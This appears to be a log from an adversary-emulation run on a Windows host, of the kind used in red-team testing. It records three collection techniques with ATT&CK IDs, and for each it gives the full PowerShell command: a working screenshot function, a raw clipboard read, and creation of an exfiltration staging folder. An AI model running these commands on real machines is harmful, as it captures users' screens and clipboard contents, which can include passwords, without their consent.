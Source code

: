 ## Host: ACME-HH-ZYQ (paw: kwmxux)

###   Description: capture the contents of the screen


  Attack: {'tactic': 'collection', 'technique_name': 'Screen Capture', 'technique_id': 'T1113'}

  Status: Success

  PID: 792

  Start: 2024-09-13T18:22:34Z

  Command: 
```powershell
$loadResult = [Reflection.Assembly]::LoadWithPartialName("System.Drawing");function screenshot([Drawing.Rectangle]$bounds, $path) {   $bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height;   $graphics = [Drawing.Graphics]::FromImage($bmp);   $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size);   $bmp.Save($path);   $graphics.Dispose();   $bmp.Dispose();}if ($loadResult) {  $bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900);  $dest = "$HOME\Desktop\screenshot.png";  screenshot $bounds $dest;  if (Test-Path -Path $dest) {    $dest;    exit 0;  };};exit 1;
```


###   Description: copy the contents for the clipboard and print them


  Attack: {'tactic': 'collection', 'technique_name': 'Clipboard Data', 'technique_id': 'T1115'}

  Status: Success

  PID: 1260

  Start: 2024-09-13T18:23:13Z

  Command: 
```powershell
Get-Clipboard -raw
```


###   Description: create a directory for exfil staging


  Attack: {'tactic': 'collection', 'technique_name': 'Data Staged: Local Data Staging', 'technique_id': 'T1074.001'}

  Status: Failed

  PID: 3112

  Start: 2024-09-13T18:24:09Z

  Command: 
```powershell
New-Item -Path "." -Name "staged" -ItemType "directory" -Force | foreach {$_.FullName} | Select-Object
```
